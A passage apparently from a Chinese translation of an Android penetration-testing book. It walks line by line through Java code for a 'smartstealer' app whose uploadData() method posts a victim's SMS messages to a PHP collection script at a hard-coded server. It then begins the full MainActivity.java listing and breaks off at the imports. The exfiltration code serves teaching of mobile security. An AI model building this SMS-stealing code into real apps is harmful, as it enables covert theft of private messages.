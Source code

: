 private void uploadData(ArrayList<BasicNameValuePair> arrayList) {

  DefaultHttpClient httpClient = new DefaultHttpClient();

  HttpPost httpPost = new HttpPost("http://10.1.1.4/smartstealer/sms.php");

  try {
    httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
    httpClient.execute(httpPost);

  } catch (Exception e) {

  e.printStackTrace();
  }
  }

}
```

让我们逐行理解前面的代码。

*   首先我们创建`DefaultHttpClient`对象：

    ```
    DefaultHttpClient httpClient = new DefaultHttpClient();
    ```

*   接下来我们将创建一个`HttpPost`对象，在这里我们需要指定目标服务器的 URL。在我们的例子中，下面是 URL。我们将在本节后面看到`sms.php`文件的代码：`http://10.1.1.4/smartstealer/sms.php`
*   接下来，我们需要构建要发送到服务器的 post 参数。在本例中，我们需要发送的唯一参数是 SMS 名称-值对，它作为参数传递给`uploadData()`方法：

    ```
    httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
    ```

*   最后一步是使用下面的行执行 HTTP 请求：

    ```
    httpClient.execute(httpPost);
    ```

#### MainActivity.java 的完整代码

以下是我们在`MainActivity.class`文件中编写的完整代码：

```
package com.androidpentesting.smartstealer;

import android.app.Activity;
import android.database.Cursor;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
